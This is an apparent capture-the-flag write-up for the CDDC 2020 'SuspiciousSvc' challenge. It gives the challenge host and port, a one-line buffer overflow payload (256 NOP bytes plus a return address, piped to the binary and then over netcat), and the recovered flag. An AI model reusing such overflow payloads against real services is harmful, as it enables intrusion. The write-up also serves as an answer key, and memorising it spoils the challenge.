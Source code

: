 **Challenge**

While conducting reconnaissance on Unduplicitous Corp, we found a suspicious service. Let's figure out what this is.

ss.chall.cddc2020.nshc.sg 7777

Attached Files: [SuspiciousSvc](./attached_files/SuspiciousSvc)

**Solution**

Reverse engineering and buffer exploitation
python -c ‘print(“\x90”*256+”\x00\x3d\x34\x01”)’ | ./SUSsvc
Now replace “./SUSsvc” with the netcat to the server. Flag will be returned (Server down by time writeup done)

**Flag**

```
CDDC20{BufferrrrrrrrrOverflowwwwwwwwwwwwwwwwwwwww}
```

